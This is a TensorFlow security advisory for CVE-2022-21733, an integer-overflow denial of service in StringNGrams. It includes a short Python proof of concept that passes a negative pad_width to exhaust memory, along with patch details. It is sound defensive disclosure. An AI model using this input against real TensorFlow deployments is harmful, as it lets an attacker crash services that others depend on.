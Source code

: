 ## TFSA-2022-009: OOM due to integer overflow in `StringNGrams`

### CVE Number
CVE-2022-21733

### Impact
The [implementation of `StringNGrams`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/string_ngrams_op.cc#L29-L161) can be used to trigger a denial of service attack by causing an OOM condition after an integer overflow:

```python
import tensorflow as tf

tf.raw_ops.StringNGrams(
  data=['123456'],
  data_splits=[0,1],
  separator='a'*15,
  ngram_widths=[],
  left_pad='',
  right_pad='',
  pad_width=-5,
  preserve_short_sequences=True)
```

We are missing a validation on `pad_witdh` and that result in computing a negative value for `ngram_width` which is later used to allocate parts of the output.

### Patches
We have patched the issue in GitHub commit [f68fdab93fb7f4ddb4eb438c8fe052753c9413e8](https://github.com/tensorflow/tensorflow/commit/f68fdab93fb7f4ddb4eb438c8fe052753c9413e8).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
